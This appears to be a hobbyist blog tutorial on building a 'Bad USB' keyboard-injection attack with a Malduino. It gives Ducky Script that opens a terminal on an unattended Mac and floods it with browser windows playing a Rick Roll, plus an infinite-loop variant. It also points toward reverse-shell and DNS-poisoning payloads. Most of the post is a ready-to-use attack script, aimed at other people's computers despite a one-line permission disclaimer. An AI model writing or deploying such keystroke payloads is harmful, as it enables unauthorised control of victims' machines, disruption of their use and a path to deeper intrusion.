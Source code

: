 ```yaml
---
title: "Introduction to Keyboard Injectors with Rick Astley"
date: 2020-02-11
tags: [Advanced Projects, Bash]
header:
  image: "images/maltronix.jpg"
excerpt: "Use a Malduino to launch a Rick Roll bomb on an unattended computer"
---
```




# DISCLAIMER:
Code in this project utilizes your browser for purposes it was not intended for and could potentially damage computer hardware if used excessively. Do not plug a bad USB into any computer without the proper permissions from its owner.


## Bad USBs:
Computers, printers, external drives, scanners, and cameras, they all have one thing in common, a Universal Serial Bus(USB) socket. conveniently, nearly every one of these devices has no security measures in place to prevent harmful devices from being plugged in, the operating system essentially allows the USB to do whatever it wants because anti-virus software cannot access the software on a USB. A "Bad USB" is a USB drive with the microcontroller's firmware reprogrammed in such a way that allows it to be used for malicious purposes.


## Keyboard Injectors
A Keyboard injector is a Bad USB programmed to initiate keystrokes at superhuman speeds once plugged in.

![Keyboard-Injector](/images/injector.gif){:class="img-responsive"}

One such device is the [Malduino](https://maltronics.com/collections/malduinos) by Maltronics. As the name suggests the Malduino is a "bad" Arduino setup using [Arduino's IDE](https://www.arduino.cc/en/main/software).

The Malduino Elite has 4 switches corresponding to binary values 1 and 0. Depending on the switch combination a particular script stored on the micro sd card will execute. I.g. 1010.txt for gaining a reverse shell and 1110.txt for DNS poisoning.  
![malduino](/images/malduino_img.jpg){:class="img-responsive"}
## Ducky Script Basics
The Malduino uses a scripting language called ducky script (lines are executed successively).
### DELAY
DELAY adds a pause in milliseconds to the script. This is useful if you want to give a process time to finish before executing the next line. The following is a delay of 1 second:
```
DELAY 1000
```
### STRING and ENTER
STRING is used to simulate characters typed on the keyboard. For example, 
```
STRING Hello!
```
would simulate the user typing "Hello!" on the keyboard. 
ENTER emulates the enter key.
```
STRING Hello!
ENTER
```
This will become useful once you need to navigate cmd/terminal or a built in search such as Spotlight.
### GUI
GUI simulates the Super key(Mac: command Windows: Windows key). With this you gain access to various keyboard shortcuts.
```
GUI r
STRING cmd
ENTER
```
This script uses the Windows-key+r shortcut to pull up the Windows' “Run” box, type out cmd, and hit enter.
## The Script:
Firstly, access a shell/cmd using the methods mentioned above. For mac, access spotlight then navigate to the terminal with the proper delay times (tweak delays so script runs as fast as possible). 
```
DELAY 2000
GUI space
DELAY 500
STRING terminal
DELAY 500
ENTER
```
Next access a bash shell (in case bash isn't the default shell) so we can quickly write out the browser bomb script
*The delays are too long. Make sure to tweak them for efficiency*
```
DELAY 500
STRING bash
DELAY 500
ENTER
```
Create an index variable and a while loop that uses -le (less than) to decide how many browsers to open. For now I'm using 5 meaning 5 browsers will open. 
```
STRING N=0
DELAY 500
ENTER
DELAY 500
STRING while [ $N -le 5 ]; do
DELAY 500
ENTER
```
*Use to run an infinite loop*

```
STRING while: do
```
Use **open** to open a browser with the specified link. With Windows, open internet explorer then enter the link.
Lastly, add to the index variable and end the while loop.
```
DELAY 500
STRING open https://www.youtube.com/watch?v=dQw4w9WgXcQ
DELAY 500
ENTER
DELAY 500
STRING N=$(( $N + 1 ))
DELAY 500
ENTER
DELAY 500
STRING done
DELAY 500
ENTER
DELAY 500
```
### Next
Check out gaining a reverse shell on any unattended computer with Malduino
